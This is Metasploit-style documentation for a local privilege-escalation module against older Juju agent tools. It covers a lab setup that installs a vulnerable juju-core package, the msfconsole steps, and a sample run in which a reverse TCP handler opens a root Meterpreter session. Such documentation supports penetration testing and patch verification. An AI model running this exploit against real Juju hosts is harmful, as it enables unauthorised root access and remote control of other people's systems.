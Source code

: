 ## Vulnerable Application

### Description

  This module attempts to gain root privileges on Juju agent systems running the juju-run agent utility.

  Juju agent systems running agent tools prior to version 1.25.12, 2.0.x before 2.0.4, and 2.1.x before 2.1.3, provide a UNIX domain socket to manage software ("units") without setting appropriate permissions, allowing unprivileged local users to execute arbitrary commands as root.

  [Juju](https://juju.ubuntu.com/) is an open source application modeling tool designed for devops to deploy, configure, scale, and operate software on public and private clouds.

  * Homepage: https://juju.ubuntu.com/
  * Github: https://github.com/juju/juju

  This module has been tested successfully with Juju agent tools:

  * Versions 1.18.4, 1.25.5 and 1.25.9 on Ubuntu 14.04.1 LTS x86

  Deployed by Juju:

  * Versions 1.18.1-trusty-amd64 and 1.25.6-trusty-amd64 on Ubuntu 14.04.1 LTS x86_64


### Installation

  Two systems are required. The first runs Juju and the second runs the Juju agent tools.

  Ensure the client system has SSH installed and network accessible.

  The following installation instructions are for Ubuntu 14.04.1 LTS ("trusty").

  ```sh
  # List available juju packages
  apt-cache showpkg juju

  # Install a vulnerable package
  apt-get install juju-core=1.18.1-0ubuntu1

  # Generate a config file
  juju init
  ```

  Edit the `manual` section of the newly generated config file, adding the appropriate `bootstrap-host` and `bootstrap-user` for the client system, ensuring the appropriate `default-series` is set (`trusty` for Ububtu 14.x).

  ```
  manual:
    bootstrap-host: juju-client.local # Remote host
    bootstrap-user: user              # User for SSH access
    default-series: trusty            # Remote host OS series
  ```

  Switch to the `manual` environment and bootstrap the remote host specified above:

  ```sh
  juju switch manual
  juju bootstrap
  ```

  Once the bootstrapping is complete, check if it was successful. You should see a machine with ID# 0:

  ```sh
  juju stat
  ```

  Deploy any unit to the machine with ID# 0. Units can be found in the [Juju store](https://jujucharms.com/store).

  ```sh
  juju deploy zabbix-agent --to 0
  ```

  Check if it worked:

  ```sh
  watch juju stat
  ```


  Optionally, to test various versions of the juju agent utilities, the juju tools can be updated remotely. (Note: Downgrading is more difficult.)

  ```sh
  # You may or may not need to `set-env` the upstream tools URL:
  juju set-env agent-metadata-url=https://streams.canonical.com/juju/tools
  juju set-env agent-stream=proposed

  # Be careful to select a version which exists, otherwise bad things will happen.
  juju upgrade-juju --version 1.25.2
  ```


## Verification Steps

  1. Start `msfconsole`
  2. Get a session
  3. Do: `use exploit/linux/local/juju_run_agent_priv_esc`
  4. Do: `set SESSION [SESSION]`
  5. Do: `check`
  6. Do: `run`
  7. You should get a new root session


## Options

### SESSION

  Which session to use, which can be viewed with `sessions`

### WritableDir

  A writable directory file system path. (default: `/tmp`)


## Scenarios

  ```
  msf exploit(multi/handler) > use exploit/linux/local/juju_run_agent_priv_esc 
  msf exploit(linux/local/juju_run_agent_priv_esc) > set session 1
  session => 1
  msf exploit(linux/local/juju_run_agent_priv_esc) > run

  [!] SESSION may not be compatible with this module.
  [*] Started reverse TCP handler on 172.16.191.244:4444 
  [*] Trying 3 units...
  [+] Unit "unit-zabbix-agent-1" uses a privileged socket
  [*] Writing '/tmp/.tp9oGmPSvx' (207 bytes) ...
  [*] Sending stage (857352 bytes) to 172.16.191.130
  [*] Meterpreter session 2 opened (172.16.191.244:4444 -> 172.16.191.130:43760) at 2018-01-13 12:33:48 -0500
  [+] Deleted /tmp/.tp9oGmPSvx

  meterpreter > getuid
  Server username: uid=0, gid=0, euid=0, egid=0
  meterpreter > sysinfo
  Computer     : 172.16.191.130
  OS           : Ubuntu 14.04 (Linux 3.13.0-32-generic)
  Architecture : i686
  BuildTuple   : i486-linux-musl
  Meterpreter  : x86/linux
  ```

